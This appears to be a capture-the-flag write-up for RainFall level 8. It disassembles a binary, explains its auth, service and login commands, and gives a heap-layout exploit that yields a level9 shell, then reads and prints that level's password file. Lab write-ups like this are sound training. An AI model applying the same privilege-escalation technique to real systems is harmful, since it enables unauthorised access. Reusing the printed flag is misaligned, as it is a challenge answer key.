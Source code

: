 # Level 8

Once logged in, you will see a binary `level8`.

```
$ ssh localhost -p 4242 -l level8
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level8@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```


Let's run this and see what this does.

```
level8@RainFall:~$ ls
level8
level8@RainFall:~$ ./level8
(nil), (nil)
aaaaaaaaaaaaaaaaaaaaa
(nil), (nil)
```

Okay, seems little differnt from past levels. By taking a look at the binary, there is only a `main` function.

```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048564  main
[...]
```

There are two global variables `auth`, and `service`, which might be a hint to the solution.

```
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
[...]
0x08049aac  auth
0x08049ab0  service
```

Let's take a look at the main function.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048564 <+0>:	push   ebp
   0x08048565 <+1>:	mov    ebp,esp
   0x08048567 <+3>:	push   edi
   0x08048568 <+4>:	push   esi
   0x08048569 <+5>:	and    esp,0xfffffff0
   0x0804856c <+8>:	sub    esp,0xa0
   0x08048572 <+14>:	jmp    0x8048575 <main+17>
   0x08048574 <+16>:	nop
   0x08048575 <+17>:	mov    ecx,DWORD PTR ds:0x8049ab0
   0x0804857b <+23>:	mov    edx,DWORD PTR ds:0x8049aac
   0x08048581 <+29>:	mov    eax,0x8048810
   0x08048586 <+34>:	mov    DWORD PTR [esp+0x8],ecx
   0x0804858a <+38>:	mov    DWORD PTR [esp+0x4],edx
   0x0804858e <+42>:	mov    DWORD PTR [esp],eax
   0x08048591 <+45>:	call   0x8048410 <printf@plt>
   0x08048596 <+50>:	mov    eax,ds:0x8049a80
   0x0804859b <+55>:	mov    DWORD PTR [esp+0x8],eax
   0x0804859f <+59>:	mov    DWORD PTR [esp+0x4],0x80
   0x080485a7 <+67>:	lea    eax,[esp+0x20]
   0x080485ab <+71>:	mov    DWORD PTR [esp],eax
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:	test   eax,eax
   0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    eax,[esp+0x20]
   0x080485bf <+91>:	mov    edx,eax
   0x080485c1 <+93>:	mov    eax,0x8048819
   0x080485c6 <+98>:	mov    ecx,0x5
   0x080485cb <+103>:	mov    esi,edx
   0x080485cd <+105>:	mov    edi,eax
   0x080485cf <+107>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080485d1 <+109>:	seta   dl
   0x080485d4 <+112>:	setb   al
   0x080485d7 <+115>:	mov    ecx,edx
   0x080485d9 <+117>:	sub    cl,al
   0x080485db <+119>:	mov    eax,ecx
   0x080485dd <+121>:	movsx  eax,al
   0x080485e0 <+124>:	test   eax,eax
   0x080485e2 <+126>:	jne    0x8048642 <main+222>
   0x080485e4 <+128>:	mov    DWORD PTR [esp],0x4
   0x080485eb <+135>:	call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:	mov    ds:0x8049aac,eax
   0x080485f5 <+145>:	mov    eax,ds:0x8049aac
   0x080485fa <+150>:	mov    DWORD PTR [eax],0x0
   0x08048600 <+156>:	lea    eax,[esp+0x20]
   0x08048604 <+160>:	add    eax,0x5
   0x08048607 <+163>:	mov    DWORD PTR [esp+0x1c],0xffffffff
   0x0804860f <+171>:	mov    edx,eax
   0x08048611 <+173>:	mov    eax,0x0
   0x08048616 <+178>:	mov    ecx,DWORD PTR [esp+0x1c]
   0x0804861a <+182>:	mov    edi,edx
   0x0804861c <+184>:	repnz scas al,BYTE PTR es:[edi]
   0x0804861e <+186>:	mov    eax,ecx
   0x08048620 <+188>:	not    eax
   0x08048622 <+190>:	sub    eax,0x1
   0x08048625 <+193>:	cmp    eax,0x1e
   0x08048628 <+196>:	ja     0x8048642 <main+222>
   0x0804862a <+198>:	lea    eax,[esp+0x20]
   0x0804862e <+202>:	lea    edx,[eax+0x5]
   0x08048631 <+205>:	mov    eax,ds:0x8049aac
   0x08048636 <+210>:	mov    DWORD PTR [esp+0x4],edx
   0x0804863a <+214>:	mov    DWORD PTR [esp],eax
   0x0804863d <+217>:	call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:	lea    eax,[esp+0x20]
   0x08048646 <+226>:	mov    edx,eax
   0x08048648 <+228>:	mov    eax,0x804881f
   0x0804864d <+233>:	mov    ecx,0x5
   0x08048652 <+238>:	mov    esi,edx
   0x08048654 <+240>:	mov    edi,eax
   0x08048656 <+242>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x08048658 <+244>:	seta   dl
   0x0804865b <+247>:	setb   al
   0x0804865e <+250>:	mov    ecx,edx
   0x08048660 <+252>:	sub    cl,al
   0x08048662 <+254>:	mov    eax,ecx
   0x08048664 <+256>:	movsx  eax,al
   0x08048667 <+259>:	test   eax,eax
   0x08048669 <+261>:	jne    0x8048678 <main+276>
   0x0804866b <+263>:	mov    eax,ds:0x8049aac
   0x08048670 <+268>:	mov    DWORD PTR [esp],eax
   0x08048673 <+271>:	call   0x8048420 <free@plt>
   0x08048678 <+276>:	lea    eax,[esp+0x20]
   0x0804867c <+280>:	mov    edx,eax
   0x0804867e <+282>:	mov    eax,0x8048825
   0x08048683 <+287>:	mov    ecx,0x6
   0x08048688 <+292>:	mov    esi,edx
   0x0804868a <+294>:	mov    edi,eax
   0x0804868c <+296>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804868e <+298>:	seta   dl
   0x08048691 <+301>:	setb   al
   0x08048694 <+304>:	mov    ecx,edx
   0x08048696 <+306>:	sub    cl,al
   0x08048698 <+308>:	mov    eax,ecx
   0x0804869a <+310>:	movsx  eax,al
   0x0804869d <+313>:	test   eax,eax
   0x0804869f <+315>:	jne    0x80486b5 <main+337>
   0x080486a1 <+317>:	lea    eax,[esp+0x20]
   0x080486a5 <+321>:	add    eax,0x7
   0x080486a8 <+324>:	mov    DWORD PTR [esp],eax
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:	mov    ds:0x8049ab0,eax
   0x080486b5 <+337>:	lea    eax,[esp+0x20]
   0x080486b9 <+341>:	mov    edx,eax
   0x080486bb <+343>:	mov    eax,0x804882d
   0x080486c0 <+348>:	mov    ecx,0x5
   0x080486c5 <+353>:	mov    esi,edx
   0x080486c7 <+355>:	mov    edi,eax
   0x080486c9 <+357>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080486cb <+359>:	seta   dl
   0x080486ce <+362>:	setb   al
   0x080486d1 <+365>:	mov    ecx,edx
   0x080486d3 <+367>:	sub    cl,al
   0x080486d5 <+369>:	mov    eax,ecx
   0x080486d7 <+371>:	movsx  eax,al
   0x080486da <+374>:	test   eax,eax
   0x080486dc <+376>:	jne    0x8048574 <main+16>
   0x080486e2 <+382>:	mov    eax,ds:0x8049aac
   0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
   0x080486ea <+390>:	test   eax,eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	mov    DWORD PTR [esp],0x8048833
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
   0x080486fa <+406>:	jmp    0x8048574 <main+16>
   0x080486ff <+411>:	mov    eax,ds:0x8049aa0
   0x08048704 <+416>:	mov    edx,eax
   0x08048706 <+418>:	mov    eax,0x804883b
   0x0804870b <+423>:	mov    DWORD PTR [esp+0xc],edx
   0x0804870f <+427>:	mov    DWORD PTR [esp+0x8],0xa
   0x08048717 <+435>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804871f <+443>:	mov    DWORD PTR [esp],eax
   0x08048722 <+446>:	call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:	jmp    0x8048574 <main+16>
   0x0804872c <+456>:	nop
   0x0804872d <+457>:	mov    eax,0x0
   0x08048732 <+462>:	lea    esp,[ebp-0x8]
   0x08048735 <+465>:	pop    esi
   0x08048736 <+466>:	pop    edi
   0x08048737 <+467>:	pop    ebp
   0x08048738 <+468>:	ret
End of assembler dump.
```

It is a huge assembly code, but once decompiling them, the program functions as follows:
1. It first prints the address of auth and service, and prints while looping.
2. Gets input from the user
3. Checks first input if it' a string that matches `"auth "` (5 chars including space). If true, it copies over the string after `"auth "` to a `malloc`ed string of size 4. (Max string length after `"auth "` is 30 bytes.)
4. If the input is `"reset"`, it frees the global variable `auth`.
5. If the input is `"service"`, it duplicates `buffer` starting after the first 7 chars into the globial variable `service`.
6. if the input is `"login"`, there is another conditional statement within:
	1. If `auth[32]` is not `NULL`, it executes `system("/bin/sh")`
	2. Else, it prints `"Password:\n"` to stdout.


Let's run the program and see how it works.

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
login
Password:
0x804a008, (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

By giving an input of service after putting the auth, we can see the address of the service, and they are very close. With `malloc`, each pointer is placed right after the prev ones with some padding in between.

So, to solve the problem, in other words, to get `auth[32]` value set to not zero, we just need to get `auth[32]` to land within the `service` string.

```
The memory: auth            service123456789012345a
						^               ^                     ^
						0x804a008       0x804a018             auth[32]
```

The exploit in action:

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service123456789012345a // <- a on 16th padding
0x804a008, 0x804a018    // NOTE: 32 chars after 0x804a008 is within 0x804a018 if that is more than 16 chars long
login
$ id
uid=2008(level8) gid=2008(level8) euid=2009(level9) egid=100(users) groups=2009(level9),100(users),2008(level8)
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
